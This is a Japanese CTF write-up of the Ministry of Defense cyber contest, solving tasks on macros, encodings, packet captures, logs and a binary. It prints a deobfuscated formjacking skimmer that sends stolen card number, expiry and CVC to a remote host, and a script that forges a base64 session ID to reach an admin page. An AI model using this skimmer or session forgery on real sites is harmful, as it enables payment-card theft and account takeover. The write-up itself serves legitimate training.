



はじめに
今回は防衛省CTFに参加してきました。
結果は以下の通りです。

久しぶりのCTFで張り切っていたので12時間ずっとCTFしていました。
かなりの問題数があるので私が面白いと思った問題だけ細かい解説を入れていきます。
PG
縮めるだけじゃダメ
あるエクセルファイルが渡され、その中に記述されたフラグを抜き出す問題です。
中にはGET_FLAGというマクロがありました。
マクロの解析にはoletoolsを用いました。(https://github.com/decalage2/oletools/tree/master/oletools)
olevba 0.60.2 on Python 3.12.3 - http://decalage.info/python/oletools
===============================================================================
FILE: PG-1.xlsm
Type: OpenXML
WARNING For now, VBA stomping cannot be detected for files in memory
-------------------------------------------------------------------------------
VBA MACRO ThisWorkbook.cls
in file: xl/vbaProject.bin - OLE stream: 'VBA/ThisWorkbook'
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - -
(empty macro)
-------------------------------------------------------------------------------
VBA MACRO Sheet1.cls
in file: xl/vbaProject.bin - OLE stream: 'VBA/Sheet1'
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - -
Sub GET_FLAG()
Worksheets("Sheet1").Activate
Rows("1:7").RowHeight = 30
Columns("A:AT").ColumnWidth = 30
Range("A1:AT7").Interior.Color = RGB(255, 255, 255)
Range("A1:AT1").Interior.Color = RGB(0, 0, 0)
Range("A3:AT3").Interior.Color = RGB(0, 0, 0)
Range("A5:AT5").Interior.Color = RGB(0, 0, 0)
Columns("D").Interior.Color = RGB(255, 255, 255)
Columns("F").Interior.Color = RGB(255, 255, 255)
Columns("J").Interior.Color = RGB(255, 255, 255)
Columns("K").Interior.Color = RGB(255, 255, 255)
Columns("O").Interior.Color = RGB(255, 255, 255)
Columns("S").Interior.Color = RGB(255, 255, 255)
Columns("W").Interior.Color = RGB(255, 255, 255)
Columns("AA").Interior.Color = RGB(255, 255, 255)
Columns("AE").Interior.Color = RGB(255, 255, 255)
Columns("AI").Interior.Color = RGB(255, 255, 255)
Columns("AM").Interior.Color = RGB(255, 255, 255)
Columns("AQ").Interior.Color = RGB(255, 255, 255)
Range("A1:A2").Interior.Color = RGB(255, 255, 255)
Range("C2").Interior.Color = RGB(255, 255, 255)
Range("C4:C5").Interior.Color = RGB(255, 255, 255)
Range("G1:P2").Interior.Color = RGB(255, 255, 255)
Range("P5").Interior.Color = RGB(255, 255, 255)
Range("AR2:AR4").Interior.Color = RGB(255, 255, 255)
Range("AT1:AT2").Interior.Color = RGB(255, 255, 255)
Range("AT4:AT5").Interior.Color = RGB(255, 255, 255)
Range("R2:R4").Interior.Color = RGB(255, 255, 255)
Range("B1:B5").Interior.Color = RGB(0, 0, 0)
Range("E1:E5").Interior.Color = RGB(0, 0, 0)
Range("G3:G5").Interior.Color = RGB(0, 0, 0)
Range("I3:I6").Interior.Color = RGB(0, 0, 0)
Range("L3:L5").Interior.Color = RGB(0, 0, 0)
Range("N3:N7").Interior.Color = RGB(0, 0, 0)
Range("J6").Interior.Color = RGB(0, 0, 0)
Range("L7:M7").Interior.Color = RGB(0, 0, 0)
Range("Q1:Q5").Interior.Color = RGB(0, 0, 0)
Range("AS1:AS5").Interior.Color = RGB(0, 0, 0)
Range("T1:T5").Interior.Color = RGB(0, 0, 0)
Range("V1:V5").Interior.Color = RGB(0, 0, 0)
Range("X1:X5").Interior.Color = RGB(0, 0, 0)
Range("Z1:Z5").Interior.Color = RGB(0, 0, 0)
Range("AB1:AB5").Interior.Color = RGB(0, 0, 0)
Range("AD1:AD5").Interior.Color = RGB(0, 0, 0)
Range("AF1:AF5").Interior.Color = RGB(0, 0, 0)
Range("AH1:AH5").Interior.Color = RGB(0, 0, 0)
Range("AJ1:AJ5").Interior.Color = RGB(0, 0, 0)
Range("AL1:AL5").Interior.Color = RGB(0, 0, 0)
Range("AN1:AN5").Interior.Color = RGB(0, 0, 0)
Range("AP1:AP5").Interior.Color = RGB(0, 0, 0)
Range("AN2").Interior.Color = RGB(255, 255, 255)
Range("AN4").Interior.Color = RGB(255, 255, 255)
Range("T2").Interior.Color = RGB(255, 255, 255)
Range("V4").Interior.Color = RGB(255, 255, 255)
Range("AL2").Interior.Color = RGB(255, 255, 255)
Range("Z2").Interior.Color = RGB(255, 255, 255)
Range("AJ4").Interior.Color = RGB(255, 255, 255)
Range("AH2").Interior.Color = RGB(255, 255, 255)
Range("R2:V2").Interior.Color = RGB(255, 255, 255)
Range("R4:V4").Interior.Color = RGB(255, 255, 255)
Range("W2:AA2").Interior.Color = RGB(255, 255, 255)
Range("W4:AA4").Interior.Color = RGB(255, 255, 255)
Range("AB2:AH2").Interior.Color = RGB(255, 255, 255)
Range("AB4:AH4").Interior.Color = RGB(255, 255, 255)
Range("AI2:AL2").Interior.Color = RGB(255, 255, 255)
Range("AI4:AL4").Interior.Color = RGB(255, 255, 255)
Range("AM2:AR2").Interior.Color = RGB(255, 255, 255)
Range("AM4:AR4").Interior.Color = RGB(255, 255, 255)
Range("R2:AR2").Interior.Color = RGB(0, 0, 0)
Range("R4:AR4").Interior.Color = RGB(0, 0, 0)
Range("R2:AR2").Interior.Color = RGB(255, 255, 255)
Range("R4:AR4").Interior.Color = RGB(255, 255, 255)
End Sub
すると特定のセルを塗りつぶしていることが分かります。
これを最後まで実行してしまうとフラグの内容が伏字になった状態で終わってしまうので
1ステップずつ実行して、途中でフラグの内容が出てこないか確認します。
するとマクロの中盤あたりで伏字にされるまえのフラグの状態を確認することができました。
flag{268653}
暗算でもできるけど？
下記のコードの出力結果の68番目の値と314番目の値とを加算した値を求める問題です。
#include <stdio.h>
int main(){
int loopc = 0;
// int i,j,k,l;k=(((10/2*4/10*4/2)+97)*10)-10;
int i,j,k,l;k=3000;
printf("init k: %d\n", k);
for(i=2;i<=k;++i){
l=0;
for(j=2;j<i;++j){
if(i%j==0){
l=1;
break;
}
}
if(l==0) {
loopc++;
printf("%d: %d\r\n",loopc,i);
}
}
return 0;
}
このコードはforループでiが1000まで続いていて、314番目の結果まで出力してくれる長さではありません。
そこで終了条件のkを3000に増やして、iが3000まで続くようにして値を求めます。
flag{2420}
formjacking
難読化されたJSの解読問題です。
最終的にそこで送信されているHTTPリクエストを特定する問題です。
難読化はこちらのサイトで解除しました。(https://trumanwl.com/ja/crypto/javascript-deobfuscator)
難読化を解除したコードがこちらです。
document.querySelector("#card-expiry-element > form").addEventListener("submit", function (_0x2791c1) {
_0x2791c1.preventDefault();
const _0x5930f7 = "Skimming=true";
const _0x9ae3dd = document.querySelector("input[name='cardnumber']").value;
if (!_0x12237f(_0x9ae3dd)) {
return false;
}
const _0x57060f = document.querySelector("input[name='exp-date']").value;
const _0x33294f = document.querySelector("input[name='cvc']").value;
function _0x3bb027() {
const _0x3e5fd8 = "https://pg3.2025winter-cybercontest.net/pg3?cardnumber=" + encodeURIComponent(_0x9ae3dd) + "&exp-date=" + encodeURIComponent(_0x57060f) + "&cvc=" + encodeURIComponent(_0x33294f) + "&" + _0x5930f7;
return _0x3e5fd8;
}
function _0x12237f(_0x8c4fb5) {
let _0x39e251 = 0;
let _0x5d648f = false;
for (let _0x23cadc = _0x8c4fb5.length - 1; _0x23cadc >= 0; _0x23cadc--) {
let _0x3adf4b = parseInt(_0x8c4fb5[_0x23cadc]);
if (_0x5d648f) {
_0x3adf4b *= 2;
if (_0x3adf4b > 9) {
_0x3adf4b -= 9;
}
}
_0x39e251 += _0x3adf4b;
_0x5d648f = !_0x5d648f;
}
return _0x39e251 % 10 === 0;
}
let _0x24d3e7 = _0x3bb027();
fetch(_0x24d3e7);
});
_0x3bb027という関数がリクエストURLを組み立てているようです。
この値をそのまま使えば良さそうです。
(async () => {
const res = await fetch("https://pg3.2025winter-cybercontest.net/pg3?cardnumber=1&exp-date=1000000&cvc=1&Skimming=true");
console.log(await res.text());
})();
flag{f1iping_de0bfuscat0r}
loop in loop
2つの文字列をハッシュアルゴリズムによりハッシュ化し、それらの値を二重for loopでXORしていきフラグを求める問題です。
これは問題文にアルゴリズムがそのまま書いてあるので、それを実装すればいいだけです。
const crypto = require('crypto');
function ripemd160(str) {
return crypto.createHash('ripemd160').update(str).digest('hex');
}
function processStrings(str1, str2) {
const hash1 = ripemd160(str1);
const hash2 = ripemd160(str2);
let result = 0;
for (let i = 0; i < hash1.length; i++) {
const char1 = hash1[i];
if (!["0", "1", "2", "3", "4", "5", "6", "7", "8", "9"].includes(char1)) {
continue;
}
for (let j = 0; j < hash2.length; j++) {
const char2 = hash2[j];
if (!["0", "1", "2", "3", "4", "5", "6", "7", "8", "9"].includes(char2)) {
continue;
}
result += parseInt(char1) ^ parseInt(char2);
}
}
return result;
}
const str1 = 'Phoenix';
const str2 = 'Messiah';
console.log(processStrings(str1, str2));
flag{5785}
CY
エンコード方法は一つじゃない
問題として以下のパーセントエンコードされた文字列が渡されます。
%26%23%78%35%35%3b%26%23%78%36%33%3b%26%23%78%36%31%3b%26%23%78%36%65%3b%26%23%78%34%32%3b%26%23%78%37%64%3b%56%6d%46%79%61%57%39%31%63%30%56%75%59%32%39%6b%61%57%35%6e%63%77%3d%3d%36%36%36%63%36%31%36%37%37%62
これをデコードすると以下のようになります。
UcanB}
VmFyaW91c0VuY29kaW5ncw==
666c61677b
最初のものは16進で表記された文字コード、2番目はbase64エンコードされた文字、最後の文字も16進で表記された文字コードです。
これらをデコードすると以下のようになります。
UcanB
VariousEncodings
flag{
順番を適切に入れ替えればフラグの完成です。
flag{UcanBVariousEncodings}
File Integrity of Long Hash
多数のテキストファイルが格納されたzipファイルとハッシュ値が渡されます。
いつもの各ファイルのハッシュを求めて、渡されたハッシュ値と一致するものがフラグというパターンです。
今回はハッシュ値が長いと思ったらsha512でした。
find . -type f -name 'flag*' -exec sha512sum {} \;
この結果の中から渡されたハッシュ値と一致するファイルはflag_89.txtになります。
その中身がフラグになります。
flag{346D895B8FF3892191A645}
NW
頭が肝心です
.emlファイルの解析問題です。
メールのヘッダに経由したメールサーバのIPが書かれており、2番目のIPを求めるという問題です。
emlファイルの解析ツールで解析します。
今回はこれを使いました。(https://github.com/ninoseki/eml_analyzer)
解析結果の一部です。

Receivedヘッダが経由しているメールサーバが付与したIPアドレスになります。
Receivedヘッダはサーバを経由するごとにReceivedヘッダをメールサーバが付与していく仕組みになっています。
ヘッダを付与したタイムスタンプもあるので、それを参考に2番目に古いタイムスタンプを探します。
そこに書いてあるIPがフラグとなります。
この問題は試行回数が3回と限られており、内心ひやひやしながらフラグを投稿しました。
flag{172.16.25.39}
3 Way Handshake?
ポートスキャンを行った痕跡があるキャプチャファイルが渡され、それを解析して空いているポートをポート番号の昇順で列挙する問題です。
ポートスキャンではTCPのコネクション確立が成功したかどうかで基本判断しています。
ポートが空いている場合、サーバはTCPのSYNフラグとACKフラグを立てたパケットを送信します。
なのでサーバからSYN ACKが返ってきているものがポートが空いているということになります。
以下がWiresharkのフィルタになります。
tcp.flags.syn == 1 and tcp.flags.ack == 1
これで出てきたパケットのサーバ側のポート番号を昇順で列挙すればフラグが完成します。
flag{21,23,37,70,79,98,109,110,111,113,143,513,514,1025,50506}
さあ得点は？
あるサービスに存在する脆弱性を悪用した攻撃を記録したキャプチャファイルが渡されます。
この中から脆弱性を特定し、そのCVEのCVSS(v2.0)スコアを求める問題です。
HTTPパケットを眺めているとbyte rangeヘッダに変なペイロードが仕込まれていることに気が付きました。
そしてHTTPレスポンスにapacheとあったので、NISTのCVE検索で以下のように検索しました。
apache range header
そこで出てきたCVEレコードの概要を読み、今回のペイロードと最も一致するものを探します。
CVE-2011-3192の説明に複数のrange headerを表現することでDOSを行うと書いてあったので、これだと思い、このCVEのスコアを提出したところ正解でした。
flag{7.8}
decode
複数のキャプチャファイルが渡され、この中からフラグを取り出す問題です。
まずはmergecapコマンドで1つのキャプチャファイルに結合します。
HTTPパケットを中心に見ていくと、/image.phpエンドポイントに対するリクエストが複数ありました。
レスポンスを確認すると/9j/から始まるbase64文字列がJSON形式で返されていました。
/9j/から始まるものはjpegがbase64エンコードされたものなので、全てのHTTPレスポンスの内容をbase64デコードしてjpegファイルとして抜き出していきます。
すると/image.php?filename=f1a104ee8991747892d3193d6d689d04のレスポンスのjpegにフラグが書かれていました。
flag{c4ptur3_cat}
FR
露出禁止！
Webサーバのログファイルが渡され、その中からペイロードを推測してフラグを取り出す問題です。
ログにあるリクエストは全て/ctf/fr1/index.phpと/mypage.phpに対するリクエストでした。
192.168.100.103 - - [10/Jul/2024:15:36:01 +0900] "GET /index.php HTTP/1.1" 200 424
192.168.100.103 - - [10/Jul/2024:15:36:03 +0900] "POST /auth.php HTTP/1.1" 302 -
192.168.100.103 - - [10/Jul/2024:15:36:05 +0900] "GET /mypage.php?sesid=MTcyMjMxMjQxNywzLHVzZXIzCg== HTTP/1.1" 200 281
192.168.100.106 - - [10/Jul/2024:15:40:03 +0900] "GET /index.php HTTP/1.1" 200 424
192.168.100.106 - - [10/Jul/2024:15:40:08 +0900] "POST /auth.php HTTP/1.1" 302 -
192.168.100.106 - - [10/Jul/2024:15:40:11 +0900] "GET /mypage.php?sesid=MTcyMjM0Nzk5OSw2LHVzZXI2Cg== HTTP/1.1" 200 281
...
/mypage.phpにはなぜかクエリパラメータにセッションIDが付与されていました。
1つだけ他のと違うセッションIDがあるので、これをbase64デコードすると以下のようになります。
1722334192,1,admin
これをそのまま使い、/mypage.phpに行ってみるとセッションが期限切れですと言われてしまいます。
最初の数値が有効期限らしいので、これを絶対期限切れにならない数値に変えた上で再度リクエストを行います。
(async () => {
const baseUrl = "https://fr1-prod.2025winter-cybercontest.net/";
const payload = "1822334192,1,admin";
const b64Payload = btoa(payload);
const res = await fetch(baseUrl + "mypage.php?sesid=" + b64Payload);
console.log(await res.text());
})();
するとフラグがもらえました。
flag{SessionIDsCarefully}
成功の証
FTPパケットの中からパスワードを取得する問題です。
まずはフィルタでFTPパケットだけ抜き出します。
ftp
6537個目のパケットでPASS zyyzzyzyでログインを試みているパケットがあり、そのレスポンスとして認証成功のパケットが返ってきているのを発見しました。
なのでそれが正しいパスワードになります。
これは殆どのパケットに言えることなのですが、リクエストとレスポンスを見たいときはFollow TCP StreamなどのFollow機能を使うと見やすいのでおすすめです。
今回の場合だとこうなります。

flag{zyyzzyzy}
犯人はこの中にいる！
個人的にFRの中で一番好きな問題です。
ポートスキャンが行われた痕跡のあるキャプチャファイルが渡されます。
ですが攻撃を行ったクライアントはIPを偽造しているので、本当のIPを求めるという問題です。
問題文にはこれは内部にいる攻撃者が外部IPアドレスを偽造したものですという記述があったので
攻撃者は攻撃を受けたクライアントと同一ネットワーク上にいると判断し、調査を進めていきます。
同一ネットワークならばMACアドレスは攻撃者のMACアドレスのままなので、まずはMACアドレスを確認します。
VMware_4d:c2:33 (00:0c:29:4d:c2:33)
Wiresharkのフィルタを用いて送信元MACがこれと同じパケットを探します。
ether.src == 00:0c:29:4d:c2:33
すると1つのICMPパケットがそれに該当しました。
これの送信元IPを見ると偽造されていないIPアドレスが書かれていました。
これで攻撃者のIPアドレスを求めることができました。
flag{192.168.204.137}
Chemistry
実行形式のファイルが渡されます。。
実行すると数値の配列を入力するよう求められます。
FLAG I AM LUCKYという文字列になる数値の配列を求める問題です。
とりあえずIDAで解析してみます。
するとhttp://fr4.2025winter-cybercontest.net/chemistry?flagSeed=数値にリクエストを送信していることが分かりました。
数値の部分にユーザが入力した数値の配列が1ずつ使われているようです。
flagSeedパラメータの値に応じて1~2の文字が返されます。
どのくらいのパターンがあるのか気になり総当たりをしてみたところ、0~118までの数値が使えることが分かりました。
あとはこれらの数値を駆使して、なんとか指定された文字列になるように数値の配列を作っていきます。
最終的にはこうなりました。
114,47,0,53,0,95,0,71,6,19,39
なのでこれがフラグになります。
flag{114,47,0,53,0,95,0,71,6,19,39}